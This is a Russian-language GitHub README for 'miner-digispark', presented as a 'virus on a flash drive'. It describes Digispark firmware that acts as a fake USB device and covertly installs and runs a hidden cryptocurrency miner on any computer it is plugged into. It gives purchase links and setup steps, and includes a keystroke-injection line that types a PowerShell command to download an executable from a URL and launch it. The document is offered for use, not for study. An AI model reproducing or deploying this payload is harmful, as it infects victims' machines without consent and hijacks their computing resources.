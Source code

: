 # miner-digispark | Вирус на флешке
_Прошивка для digispark + скрытый майнер_
## Идея
При подключении "флешки" к компютерю будет устанавливаться и запускаться скрытый майнер
## Реализация
- Покупаем  [Digispark](https://alexgyver.ru/lessons/digispark/) 

> [Купить на Ozon](https://ozon.ru/t/Dr8D1GD) | [Купить на AliExpress](https://aliexpress.ru/item/2040316211.html?sku_id=58307777832&spm=a2g2x.productlist.search_results.1.5d115ed1ofwRd7) 

- Устанавливаем [прошивку](firmware.ino) и открываем в [Arduino IDE](https://www.arduino.cc/en/software)
- Редактируем под себя
> TrinketKeyboard.print("powershell -c \"Invoke-WebRequest -Uri 'ПРЯМАЯ ССЫЛКА НА ФАЙЛ https://...exe' -OutFile 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'; Start-Process 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'\"");
- Загружаем прошивку [(Инструкция)](https://github.com/Sudox00/miner-digispark/blob/main/manual-firmware.md)
